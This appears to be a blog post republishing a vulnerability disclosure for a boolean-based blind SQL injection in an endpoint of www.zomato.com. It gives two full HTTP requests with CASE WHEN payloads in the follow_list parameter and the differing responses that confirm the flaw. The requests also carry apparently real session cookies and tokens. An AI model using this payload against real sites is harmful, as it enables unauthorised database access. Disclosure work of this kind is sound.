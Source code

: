 ```yaml
---
layout: post
title: www.zomato.com SQL Injection
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - saltedfish</p>

## Steps To Reproduce:

(Add details for how we can reproduce the issue)

Step 1: visit and login

Step 2:

{% highlight php %}
POST /php/common_follow_handler.php?type=follow_all HTTP/1.1
Host: www.zomato.com
Connection: close
Content-Length: 109
Accept: application/json, text/javascript, /; q=0.01
Origin: https://www.zomato.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://www.zomato.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: fbtrack=8a7f14c8b74958d3eaa88d1a45aca0fd; _ga=GA1.2.657534215.1529389361; dpr=1; cto_lwid=7ff8913d-c913-428f-bc62-2b2083f7450d; G_ENABLED_IDPS=google; __utmx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:NaN; zhli=1; selectedDeliveryPlace=%7B%22entity_id%22%3A%223881%22%2C%22entity_type%22%3A%22DSZ%22%2C%22place_name%22%3A%22Dubai%20Knowledge%20Park%22%7D; feed_pref=city; SL_C_23361dd035530_KEY=05a4e27ac591b9ca633a4fe9b5fdc3875e22560f; zl=en; frcp_g=1; _gid=GA1.2.551947448.1535962312; al=1; orange=3247115; zone=7000; csrf=273022387c6fdb5b035790462cee2310; PHPSESSID=6314a14c38fd9f6ef8757102c6223db08fc4f1f2; squeeze=c9d44ea7f3a4e878d4f9bc0702a90e35; session_id=f53614924d964-b18a-4bcc-bb7b-918f7223963a; fbcity=6; ak_bmsc=622939D608DCC69BECCB32F4EB4922D1CB4A4306441F000052448E5B74DCC346~plgjmroXGsDV+cWwoWZmINEIZ9IUb6nQGZT/dzAAWOQYNy6nqrSxauuL2cd2Sax+Tb1VKyzeMDAA/PwJ4GCzzG6IrmYk7pqgFqZfR++ffCPgoAXauCju2ow4KsEo6NUzC9w+zJlddGcmSfYwtku5M4x6XzscOoEBFqCJ29/nQo8qaCwyNTUbDwVIxY4+N2Y8ETRdmdaV2/mDuYCMoRDo45M7rUpcPvo7wF9JJbKpUv/iI=; AMP_TOKEN=%24NOT_FOUND; LEL_JS=true; bm_sv=718E9125BCCC28798F841AE52ADAC741~aZPoyN9VGHc87X49I0AQJpvVlQVjR/b1xWSWdNxAYuUkjNAUKCM6IB9BClW9qggof43td/HTNmKWlgq8UQCRB/KxaMyj/fPoHzz2IGc8oCIzyS/K1WfF7s70YierHmrrz0xk/sxm1taCFz5ftMKYDJpJxZDvm04cyYHIkMAcqHc=; __utmxx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:1536051775:8035200

follow_list=55175964/(case when(1=1) then 1 else 0 end)&type=USER&csrf_token=273022387c6fdb5b035790462cee2310


response {"status":"success"}
{% endhighlight %}


Step 3:

{% highlight php %}
POST /php/common_follow_handler.php?type=follow_all HTTP/1.1
Host: www.zomato.com
Connection: close
Content-Length: 109
Accept: application/json, text/javascript, /; q=0.01
Origin: https://www.zomato.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://www.zomato.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: fbtrack=8a7f14c8b74958d3eaa88d1a45aca0fd; _ga=GA1.2.657534215.1529389361; dpr=1; cto_lwid=7ff8913d-c913-428f-bc62-2b2083f7450d; G_ENABLED_IDPS=google; __utmx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:NaN; zhli=1; selectedDeliveryPlace=%7B%22entity_id%22%3A%223881%22%2C%22entity_type%22%3A%22DSZ%22%2C%22place_name%22%3A%22Dubai%20Knowledge%20Park%22%7D; feed_pref=city; SL_C_23361dd035530_KEY=05a4e27ac591b9ca633a4fe9b5fdc3875e22560f; zl=en; frcp_g=1; _gid=GA1.2.551947448.1535962312; al=1; orange=3247115; zone=7000; csrf=273022387c6fdb5b035790462cee2310; PHPSESSID=6314a14c38fd9f6ef8757102c6223db08fc4f1f2; squeeze=c9d44ea7f3a4e878d4f9bc0702a90e35; session_id=f53614924d964-b18a-4bcc-bb7b-918f7223963a; fbcity=6; ak_bmsc=622939D608DCC69BECCB32F4EB4922D1CB4A4306441F000052448E5B74DCC346~plgjmroXGsDV+cWwoWZmINEIZ9IUb6nQGZT/dzAAWOQYNy6nqrSxauuL2cd2Sax+Tb1VKyzeMDAA/PwJ4GCzzG6IrmYk7pqgFqZfR++ffCPgoAXauCju2ow4KsEo6NUzC9w+zJlddGcmSfYwtku5M4x6XzscOoEBFqCJ29/nQo8qaCwyNTUbDwVIxY4+N2Y8ETRdmdaV2/mDuYCMoRDo45M7rUpcPvo7wF9JJbKpUv/iI=; AMP_TOKEN=%24NOT_FOUND; LEL_JS=true; bm_sv=718E9125BCCC28798F841AE52ADAC741~aZPoyN9VGHc87X49I0AQJpvVlQVjR/b1xWSWdNxAYuUkjNAUKCM6IB9BClW9qggof43td/HTNmKWlgq8UQCRB/KxaMyj/fPoHzz2IGc8oCIzyS/K1WfF7s70YierHmrrz0xk/sxm1taCFz5ftMKYDJpJxZDvm04cyYHIkMAcqHc=; __utmxx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:1536051775:8035200

follow_list=55175964/(case when(1=2) then 1 else 0 end)&type=USER&csrf_token=273022387c6fdb5b035790462cee2310


response {"status":"failed"}
{% endhighlight %}

## Impact — SQL Injection

![图片1](https://i.imgur.com/MblmdRd.png)
![图片2](https://i.imgur.com/03zs7X3.png)

